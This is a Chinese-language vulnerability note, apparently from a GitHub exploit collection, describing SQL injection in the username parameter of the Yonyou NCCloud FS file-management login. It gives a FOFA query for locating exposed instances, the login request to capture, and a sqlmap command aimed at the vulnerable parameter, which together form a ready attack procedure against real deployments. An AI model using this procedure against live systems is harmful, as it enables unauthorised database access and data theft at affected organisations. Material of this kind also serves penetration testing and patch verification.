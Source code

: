 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

> [!NOTE]
>
> 用友 NCCloud

## FOFA

> [!NOTE]
>
> "NCCloud"

## 漏洞描述

登录页面如下

![](image/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```
http://xxx.xxx.xxx.xxx/fs/
```

![](image/yongyou-14.png)

登录请求包如下

```
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```
sqlmap -r sql.txt -p username 
```

![](image/yongyou-15.png)

